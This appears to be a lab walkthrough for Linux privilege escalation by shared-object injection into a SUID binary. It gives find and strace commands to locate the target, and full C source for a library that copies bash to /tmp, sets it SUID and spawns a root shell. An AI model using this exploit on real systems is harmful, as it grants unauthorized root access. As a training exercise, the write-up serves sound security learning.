 **Detection**

Linux VM

1. In command prompt type: 
   
```
find / -type f -perm -04000 -ls 2>/dev/null
```

![[Pasted image 20240601220458.png]]

2. From the output, make note of all the SUID binaries.

3. In command line type:

```
strace /usr/local/bin/suid-so 2>&1 | grep -i -E "open|access|no such file"
```

![[Pasted image 20240601220752.png]]


4. From the output, notice that a .so file is missing from a writable directory.

**Exploitation**

Linux VM

1. In command prompt type: 
   
```
mkdir /home/user/.config
```

2. In command prompt type: 
   
```
cd /home/user/.config
```

3. Open a text editor and type:

```
#include <stdio.h>
#include <stdlib.h>

static void inject() __attribute__((constructor));

void inject() {
    system("cp /bin/bash /tmp/bash && chmod +s /tmp/bash && /tmp/bash -p");
}
```

  

8. Save the file as 
   
```
libcalc.c
```

9. In command prompt type:

```
gcc -shared -o /home/user/.config/libcalc.so -fPIC /home/user/.config/libcalc.c
```

10. In command prompt type: 
    
```
/usr/local/bin/suid-so
```

11. In command prompt type: 
    
```
id
```

![[Pasted image 20240601221022.png]]


Answer the questions below

Click 'Completed' once you have successfully elevated the machine
